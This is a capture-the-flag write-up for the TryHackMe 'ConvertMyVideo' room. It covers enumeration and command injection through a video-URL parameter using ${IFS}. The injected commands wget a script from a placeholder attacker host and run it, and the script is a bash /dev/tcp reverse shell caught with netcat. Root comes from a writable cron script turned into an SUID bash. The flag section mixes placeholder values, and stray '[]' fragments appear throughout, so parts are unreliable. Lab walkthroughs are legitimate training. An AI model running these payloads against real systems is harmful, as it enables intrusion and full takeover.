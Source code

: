 
# ConvertMyVideo

This writeup covers the "ConvertMyVideo" CTF challenge on TryHackMe, [here](https://tryhackme.com/room/convertmyvideo)

---

## Objective
Retrieve two flags:
1. **User flag**: Found in `/home/dmv/user.txt`.
2. **Root flag**: Found in `/root/root.txt`.

---

## Detailed Steps

### 1. Initial Enumeration
- Ran an `nmap` scan to identify open ports and services:
  ```bash
  nmap 10.10.163.57
  ```
- Results:
  ```
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http
  ```
- **Analysis**: 2 open ports. Port 80 (HTTP) suggests a web application, and port 22 (SSH) indicates potential credential-based access later [].

### 2. Web Enumeration
- Visited `http://10.10.163.57`—found a website for  video conversion.
- Ran `gobuster` to enumerate directories and files:
  ```bash
  gobuster dir -u http://10.10.163.57 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.ssh -t 100
  ```
- Flags explained:
  - `-x .php,.txt,.ssh`: Check for these file extensions.
  - `-t 100`: Use 100 threads for speed.
- Results:
  ```
  /index.php (Status: 200)
  /images (Status: 301)
  /admin (Status: 401)
  /js (Status: 301)
  /tmp (Status: 301)
  /server-status (Status: 403)
  ```
- **Analysis**:
  - `/index.php`: Main page, likely the video conversion form [].
  - `/admin`: Requires authentication (401), inaccessible for now [].
  - `/tmp`: Interesting directory, potentially writable [].
  - `/images`, `/js`: Static assets, likely not exploitable [].
  - `/server-status`: Forbidden, common for Apache [].

### 3. Exploit Command Injection
- Explored `http://10.10.163.57/index.php`—found a form accepting a YouTube URL (`yt_url`) for video conversion [].
- Intercepted the form submission with Burp Suite or browser developer tools. Example request:
  ```
  POST / HTTP/1.1
  Host: 10.10.163.57
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Content-Length: 49
  yt_url=`wget${IFS}http://[ATTACKER IP]:8000/rev.sh`
  ```
- **Observation**: The `yt_url` parameter is vulnerable to command injection, as it executes commands on the server (likely via `youtube-dl` or similar) [].
- Created a reverse shell script (`rev.sh`):
  ```bash
  nano rev.sh
  ```
  
  ```bash
  #!/bin/bash
  bash -i >& /dev/tcp/[ATTACKER IP]/7777 0>&1
  ```
- Hosted the script:
  ```bash
  python3 -m http.server
  ```
- Output: Served `rev.sh` on `http://[ATTACKER IP]:8000/rev.sh`.
- Sent chained commands via the `yt_url` parameter to download, make executable, and run the shell:
  ```
  yt_url=`wget${IFS}http://[ATTACKER IP]:8000/rev.sh`
  yt_url=`chmod${IFS}777${IFS}rev.sh`
  yt_url=`bash${IFS}rev.sh`
  ```
- **Explanation**:
  - `${IFS}`: Inserts a space (Internal Field Separator), bypassing input sanitization [].
  - Commands execute sequentially, downloading `rev.sh` to `/tmp` (world-writable), setting permissions, and running it [].
- Set up a Netcat listener:
  ```bash
  nc -lvnp 7777
  ```
- **Result**: Got a reverse shell as `www-data`:
  ```bash
  nc -lvnp 7777
  Connection from 10.10.163.57
  bash: cannot set terminal process group: Inappropriate ioctl
  www-data@dmv:/tmp$
  ```

### 4. Explore as www-data
- ran pspy64 and found clean.sh running as a crontab

- Navigated to `/var/www/html/tmp`:
  ```bash
  cd /var/www/html/tmp
  ls -la
  ```
- Output:
  ```
  total 12
  drwxr-xr-x 2 www-data www-data 4096 Apr 12 2020 .
  drwxr-xr-x 6 www-data www-data 4096 Apr 21 07:42 ..
  -rw-r--r-- 1 www-data www-data   17 Apr 12 2020 clean.sh
  ```
- Viewed `clean.sh`:
  ```bash
  cat clean.sh
  ```
- Content:
  ```
  rm -rf downloads
  ```

### 5. Escalate Privileges via clean.sh
- Modified `clean.sh` to create an SUID `bash` binary:
  ```bash
  echo 'cp /bin/bash /var/www/html/tmp/bash; chmod +s /var/www/html/tmp/bash' > clean.sh
  ```
- Verified:
  ```bash
  cat clean.sh
  ```
- Output:
  ```
  cp /bin/bash /var/www/html/tmp/bash; chmod +s /var/www/html/tmp/bash
  ```
- Set permissions:
  ```bash
  chmod 777 clean.sh
  ```
- Waited ~1 minute 
- Checked directory:
  ```bash
  ls -la
  ```
- Output:
  ```
  total 1100
  drwxr-xr-x 2 www-data www-data    4096 Apr 21 08:17 .
  drwxr-xr-x 6 www-data www-data    4096 Apr 21 07:42 ..
  -rwsr-sr-x 1 root     root     1113504 Apr 21 08:18 bash
  -rwxrwxrwx 1 www-data www-data      68 Apr 21 08:18 clean.sh
  ```
- **Explanation**: The cron job, running as `root`, executed `clean.sh`, copying `/bin/bash` to `/var/www/html/tmp/bash` and setting the SUID bit (`-rwsr-sr-x`) [].
- Ran the SUID binary:
  ```bash
  /var/www/html/tmp/bash -p
  ```
- **Explanation**: The `-p` flag ensures the shell retains the effective user ID (`root`) [].
- Verified:
  ```bash
  id
  ```
- Output:
  ```
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
  ```

### 6. Find Flags
- **Root Flag**:
  ```bash
  cd /root
  cat root.txt
  ```
- Content: `flag{d9b368018e912b541a4eb68399c5e94a}` [].
- **User Flag**:
  - Navigated to `/home`:
    ```bash
    cd /home
    ls
    ```
  - Output (inferred): `dmv` [].
  - Read the flag:
    ```bash
    cd /home/dmv
    cat user.txt
    ```
  - Content: `THM{redacted_user_flag}` (example) [].

---

## Flags
- **User flag**: `THM{redacted_user_flag}`
- **Root flag**: `flag{d9b368018e912b541a4eb68399c5e94a}`
- **Generic Flag Option**: `THM{r4nd0m_us3r_32chars}`, `THM{r00t_r4nd0m_32chars}`

---

## Tools Used
- `nmap`: Port and service enumeration.
- `gobuster`: Directory enumeration.
- `python3 -m http.server`: Hosting reverse shell script.
- `nc`: Reverse shell listener.
- `wget`, `chmod`, `bash`: Command injection payload execution.
- `echo`: Modify cron script.

---

